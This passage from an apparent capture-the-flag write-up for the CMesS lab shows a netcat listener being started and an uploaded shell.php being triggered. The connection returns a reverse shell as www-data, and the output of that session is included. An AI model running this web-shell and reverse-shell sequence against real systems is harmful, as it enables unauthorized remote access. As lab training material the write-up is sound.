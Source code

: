 ![Untitled](/assets/CMesS%20images/Untitled%207.png)

Start a listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

To open the shell, route to the following URL: `http://cmess.thm/assets/shell.php` and then I get connected to the target:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.112.136] 56982
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 14:55:18 up 30 min,  0 users,  load average: 61.68, 58.55, 48.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
